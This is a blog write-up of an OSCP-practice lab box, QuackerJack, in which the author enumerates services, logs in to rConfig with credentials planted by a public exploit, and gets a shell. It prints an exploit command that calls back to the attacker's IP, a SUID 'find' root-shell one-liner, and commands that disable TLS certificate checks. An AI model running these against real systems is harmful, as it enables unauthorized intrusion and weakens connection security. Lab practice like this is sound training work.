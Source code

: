 ```yaml
---
layout: writeup
title: QuackerJack - Proving Grounds
date: 2024-07-23 13:32:20 +0300
description: A Writeup of the QuackerJack Box from Proving Grounds
image: # /assets/images/Flu/Flu_1.png
fig-caption: # Add figcaption (optional)
tags: [LainKusunagi, Linux, Python]
---
```


This is a writeup for QuackerJack, which I saw on the 
[LainKusanagi list of OSCP like machines](https://www.reddit.com/r/oscp/comments/1c8pzyz/lainkusanagi_list_of_oscp_like_machines/). I kick things off with an nmapAutomator Full scan and check port 80 by entering the IP into firefox. I get the nmap scan back, and it looks like we'll have a lot to go through. 
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3306/tcp open  mysql
8081/tcp open  blackice-icecap
```

And I do see a webpage for port 80, so I begin a directory scan on that (which doesn't really return anything interesting).
![QuackerJack1.png](/assets/images/QuackerJack/QuackerJack1.png){: .center-aligned width="600px"}

As I go through the nmap output of open ports, there's a few options that don't really go anywhere either. The FTP server does allow anonymous logins, but it times out before you can access anything. I can authenticate using rcpclient, but I can't find anything especially interesting, particularly in the way of usernames or passwords. I am able to list SMB shares, but can't access anything that stands out. And then there's port 8081, where I quickly find a login page:

![QuackerJack2.png](/assets/images/QuackerJack/QuackerJack2.png){: .center-aligned width="600px"}

Trying some test logins and admin shows `Invalid password` but user shows `username not found` so we know admin is a user. At that point I search for some exploits and try a few because we know from the screenshot above that we're working with `rConfig Version 3.9.4`. There is an unauthenticated root exploit on exploit-db for that version, but I don't get it working. I also try one for [3.9.5](https://www.exploit-db.com/exploits/48878), but that doesn't immediately appear to work either. While looking around, I see a comment in[this](https://gist.github.com/farid007/9f6ad063645d5b1550298c8b9ae953ff)github page that states that the exploit for 3.9.5 does create a password for the admin user of `Testing1@`. So I try to login with the credentials `admin:Testing1@`, and it works. I hadn't realized that part of the exploit did work. So we have creds now and access to the console. 

![QuackerJack3.png](/assets/images/QuackerJack/QuackerJack3.png){: .center-aligned width="600px"}

While there is an authenticated command injection exploit on [exploit-db](https://www.exploit-db.com/exploits/48241), I unfortunately get errors on that. Apparently a couple python modules might not match a supported version: 
`urllib3 (1.26.8) or chardet (5.2.0)/charset_normalizer (2.0.12) doesn't match a supported version!` I could try and figure that out, but I've had some issues trying to tweak that, so I keep moving and make a note. 

After an hour or so, I decide it's time to revisit this issue, because honestly, I should know how to solve. That said, I'm not sure the best path to move forward, so I ask ChatGPT. I figure if I do this, I can take notes and learn how to do it in the future. So I do, and it turns out I need to create a python 3 virtual environment, install the supported libraries, and then deactivate later. The commands are as follows:
1. `sudo apt-get install python3-venv`
2. `python3 -m venv myenv`
3. `source myenv/bin/activate
4. `pip install requests urllib3==1.26.8 charset_normalizer==2.0.12` 
5. `python $script.py`
6. `deactivate`

And it works, and now I know! However, it did not solve my problems. I ran the script again without those errors, and I noticed a few more, all ultimately cause by an SSL issue, because we had to use https for port 8081. The error looked like this:

`(Caused by SSLError(SSLCertVerificationError(1, '[SSL: CERTIFICATE_VERIFY_FAILED] certificate verify failed: self-signed certificate (_ssl.c:1006)')))` 

So I simply asked ChatGPT again, and it told me to run these commands to fix the issue. 
1. `export PYTHONWARNINGS="ignore:Unverified HTTPS request"`
2. `export REQUESTS_CA_BUNDLE=""`
3. `export CURL_CA_BUNDLE=""`

And it did, and the command finally worked:
`python3 47982.py https://192.168.242.57:8081 admin Testing1@ 192.168.45.235 80`

And I got the shell. So I checked for SUID binaries using: 
`find / -type f -perm -u=s 2>/dev/null`, and I immediately noticed `find`. A quick trip to gtfo bins says we can run this command to get privileged access, and it won't drop the privileges. 

`find . -exec /bin/sh -p \; -quit`

And it works. 

![QuackerJack4.png](/assets/images/QuackerJack/QuackerJack4.png){: .center-aligned width="600px"}

Lessons learned: I learned how to use a python virtual environment to download different libraries than the main ones, and I learned how to configure it such that it ignores SSL issues/issues with certs when using HTTPS for sites that aren't properly configured for it. 

Other takeaways: I'm annoyed with myself for using ChatGPT on this box when it's not allowed on the exam, but that said, it's exactly the kind of thing to use ChatGPT for. I didn't know that it was possible to use a temporary virtual environment like that for python, so I didn't know *to* research how to do it. I can't do it on the exam, but hey, now it's in my [OSCP Notes](https://cagrigsby.github.io/oscp_notes/)